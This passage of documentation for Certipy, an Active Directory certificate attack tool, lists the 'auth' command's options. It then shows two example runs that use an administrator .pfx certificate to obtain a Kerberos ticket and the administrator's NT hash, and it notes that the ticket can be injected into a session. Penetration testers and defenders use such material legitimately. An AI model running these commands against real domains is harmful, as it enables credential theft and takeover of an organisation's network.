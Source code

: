 ```
  -ptt                  Submit TGT for current logon session (Windows only)
  -print                Print TGT in Kirbi format
  -kirbi                Save TGT in Kirbi format
  -debug                Turn debug output on

connection options:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ns nameserver        Nameserver for DNS resolution
  -dns-tcp              Use TCP instead of UDP for DNS queries
  -timeout seconds      Timeout for connections

authentication options:
  -username username
  -domain domain
  -ldap-shell           Authenticate with the certificate via Schannel against LDAP

ldap options:
  -ldap-port port       LDAP port. Default: 389
  -ldap-user-dn dn      Distinguished Name of target account for LDAPS authentication
```

By default, Certipy will try to extract the username and domain from the certificate (`-pfx`) for authentication via Kerberos.

```bash
$ certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```

The NT hash and the credential cache (TGT) can be used for further authentication with other tools. If you're in a domain context on a Windows machine, you can use `-ptt` to inject the TGT into your current session.

If the example above doesn't work in your case, you can specify the required parameters manually, such as the KDC IP, username, and domain. This can sometimes happen if the certificate doesn't contain information about the user (such as Shadow Credentials) or if the domain name cannot be resolved via DNS.

```bash
$ certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.126.128
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got NT hash for 'administrator@corp.local': fc525c9683e8fe067095ba2ddc971889
```
